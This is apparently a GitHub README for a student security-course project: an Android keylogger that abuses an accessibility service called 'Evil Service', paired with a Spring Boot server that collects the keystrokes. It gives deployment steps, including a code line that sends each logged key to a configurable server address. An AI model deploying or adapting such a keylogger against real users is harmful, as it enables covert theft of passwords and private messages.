 # Android Keylogger

This is a project implemented as Project for the Information Systems Security Course. The main idea is developing a basic key logger for android mobile devices.

## Modules
* keylogapp => Basic Android Java Mobile Application that logs keys
* keylogweb => Spring Boot Web Application that receives logged keys

## How It Works
![Keylogger.png](./diagrams/Keylogger.png)

## Usage
1. Deploy `keylogweb` application
    * NOTE: your andorid phone must have access to the server that web application running via network or internet etc.
    * You can directly start with following command:
        ```bash
        mvn clean package spring-boot:run
        ```
2. Prepare `keylogapp` for deployment
   1. [Go To KeyLogger.java](https://github.com/maemresen/android-keylogger/blob/main/keylogapp/app/src/main/java/com/maemresen/infsec/keylogapp/KeyLogger.java) 
   2. Find the following line
        ```
        sendLog("http://192.168.1.37:8080/keylog/save", keyLog);
        ```
    1. Replace `192.168.1.37` with the IP of the machine that you deploy `keylogweb` 
3. You should enable `Evil Service` which listens key press and send them to the server
   * after installed the App, you have to open Accessibility settings. (A button named `Evil Service` is added as a shortcut to directly jump accesibility settings.) Then at the bottom of the page, you will see `Evil Service` under Downloaded Services. You should enable Evil Service from there. Then it will works.
4. You can check your browser and you will see that each key-press on your Android phone will be printed to the web-page. \
   **! Hint:** Do not forget to refresh browser manually. Auto-refresh feature not implemented :)

